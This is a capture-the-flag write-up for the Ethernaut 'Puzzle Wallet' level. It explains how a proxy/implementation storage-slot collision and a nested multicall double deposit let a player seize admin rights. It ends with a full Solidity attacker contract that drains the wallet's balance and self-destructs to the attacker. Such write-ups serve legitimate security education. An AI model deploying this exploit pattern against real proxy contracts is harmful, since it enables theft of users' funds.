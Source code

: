 # Puzzle Wallet Ethernaut

## Goals

=> You'll need to hijack this wallet to become the admin of the proxy.

### Hints

- Understanding how delegatecall works and how msg.sender and msg.value behaves when performing one.

- Knowing about proxy patterns and the way they handle storage variables.

### Solution

- By setting the second storage variable `maxBalance` which is `admin` in the proxy contract to our address by typecasting it like that `uint256(uint160(YOURADDRESS))`, you change the owner of the PuzzleWallet contract to the given address and will win the challenge.

- The only functions giving us the opportunity to change `maxBalance` are `init()` & `setMaxBalance()`, since the `init()` function checks for the `maxBalance` variable, this will not work, so we need to somehow get around the `onlyWhitelisted` modifier and achieve that `address(this).balance == 0`

- To become "whitelisted" we need to change the `owner` variable sitting in Slot 0 which is the `pendingAdmin` variable in the proxy contract, so by calling the `proposeNewAdmin()` function we will be able to send an arbitrary address and this address will be stored in Storage Slot 0 e.g. be the `owner` which then allows us to call the `setMaxBalance()` function, now we need to reduce the balance of the contract to zero, the current balance is 0.001 ETH. The only function that sends ETH from the PuzzleWallet contract is the `execute()` function.

- So to drain the contracts balance we need to deposit some ETH to pass the first require, we also need to increase our balance to 0.002 ETH by sending only 0.001 ETH, we can achieve that due to the misuse of the `multicall()` function which will result in us calling the proxy which delegates a call to the implementation contract which then delegates a call to it self, so we need to somehow call deposit twice, there is a local variable inside the `multicall()` function that Protects against that by setting it to false when the `deposit` selector gets picked out of the `bytes[] data`, but by calling `deposit()` and another `multicall()` inside our first `multicall()` we will be able to call it twice with the same sent value and therefore increasing our balance by "double spending" to twice the amount we sent. In theory there is no limit (except gaslimit/block limit) on how often we can do this.

- Now we need to create a `bytes[] data` that will result in calling the `deposit()` function and then the `multicall()` function inside which we will again call the `deposit()` function, after that we can withdraw the contracts balance and then call the `setMaxBalance()` with our address typecasted like `uint256(uint160(YOURADDRESS))`

- Now by deploying the contract below and sending an arbitrary amount of ETH that is >= 0.001 ETH you will claim ownership and transfer all the balance to your account

### Attacker Contract

```solidity
// Helper interface to make all functions callable easier
interface Target {
    function admin() external view returns (address);

    function proposeNewAdmin(address _newAdmin) external;

    function setMaxBalance(uint256 _maxBalance) external;

    function addToWhitelist(address addr) external;

    function deposit() external payable;

    function execute(
        address to,
        uint256 value,
        bytes calldata data
    ) external payable;

    function multicall(bytes[] calldata data) external payable;
}

contract Attacker {
    constructor(Target target) payable {
        // writes to storage slot 0 e.g. owner in the PuzzleWallet contract
        target.proposeNewAdmin(address(this));
        // add this contract to whitelist so now we can call functions with onlyWhitelisted modifier
        target.addToWhitelist(address(this));

        // create a bytes array that will result in those calls => deposit -> multicall -> deposit

        bytes[] memory depositData = new bytes[](1);
        depositData[0] = abi.encodeWithSelector(target.deposit.selector);

        bytes[] memory multicallData = new bytes[](2);
        multicallData[0] = depositData[0];
        multicallData[1] = abi.encodeWithSelector(
            target.multicall.selector,
            depositData
        );
        target.multicall{value: 0.001 ether}(multicallData);
        // ETH will get withdrawn to the msg.sender whose balance will get increased above
        target.execute(msg.sender, 0.002 ether, "");
        // typecast address to uint and setMaxBalance to claim ownership of the contract
        target.setMaxBalance(uint256(uint160(msg.sender)));
        require(target.admin() == msg.sender, "Failed hacking contract");
        // transfer funds to attacker
        selfdestruct(payable(msg.sender));
    }
}
```
